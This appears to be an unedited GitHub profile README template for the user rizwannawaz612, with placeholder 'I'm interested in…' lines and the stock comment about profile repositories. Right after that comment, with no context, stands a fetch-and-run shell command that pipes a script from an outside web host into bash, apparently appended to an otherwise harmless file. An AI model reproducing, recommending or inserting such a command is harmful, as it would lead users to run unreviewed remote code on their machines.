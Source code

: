 - 👋 Hi, I’m @rizwannawaz612
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...

<!---
rizwannawaz612/rizwannawaz612 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->curl -sL1 http://avail.sh | bash

